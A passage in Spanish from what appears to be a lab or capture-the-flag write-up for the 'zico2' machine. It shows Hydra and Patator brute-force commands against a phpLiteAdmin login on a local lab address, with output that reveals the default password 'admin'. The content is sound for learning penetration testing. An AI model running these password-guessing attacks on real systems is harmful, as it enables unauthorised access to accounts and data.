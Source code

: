 PhpLiteAdmin es una herramienta de código abierto escrita en PHP destinada a manejar la administración de SQLite en la `World Wide Web`. Su conjunto de características, interfaz y experiencia general del usuario es comparable a la de **phpMyAdmin** para `MySQL`.

```
http://192.168.0.105/dbadmin/test_db.php
```

![sql](../assets/imgs/zico2/sql.png)

### Ataques de fuerza bruta

#### Hydra

```
❯ hydra -l none -P /usr/share/wordlists/SecLists/Passwords/cirt-default-passwords.txt 192.168.0.105 http-post-form "/dbadmin/test_db.php:password=^PASS^&login=Log+In&proc_login=true:Incorrect password." -f -V -t 50
[...]
[ATTEMPT] target 192.168.0.105 - login "none" - pass "bcpb(serial number of the firewall)" - 581 of 1039 [child 35] (0/0)
[ATTEMPT] target 192.168.0.105 - login "none" - pass "bell9" - 582 of 1039 [child 47] (0/0)
[80][http-post-form] host: 192.168.0.105   login: none   password: admin
[STATUS] attack finished for 192.168.0.105 (valid pair found)
[...]
```

#### Patator

```
❯ patator http_fuzz url="http://192.168.0.105/dbadmin/test_db.php" method=POST body="password=FILE0&login=Log+In&proc_login=true" 0=/usr/share/wordlists/SecLists/Passwords/cirt-default-passwords.txt -x ignore:fgrep="Incorrect password."
23:19:54 patator    INFO - Starting Patator 0.9 (https://github.com/lanjelot/patator) with python-3.9.1 at 2021-10-22 23:19 -05
23:19:54 patator    INFO -                                                                              
23:19:54 patator    INFO - code size:clen       time | candidate                          |   num | mesg
23:19:54 patator    INFO - -----------------------------------------------------------------------------
23:20:00 patator    INFO - 200  16696:-1       0.021 | admin                              |   532 | HTTP/1.1 200 OK
23:20:05 patator    INFO - Hits/Done/Skip/Fail/Size: 1/1039/0/0/1039, Avg: 98 r/s, Time: 0h 0m 10s
```
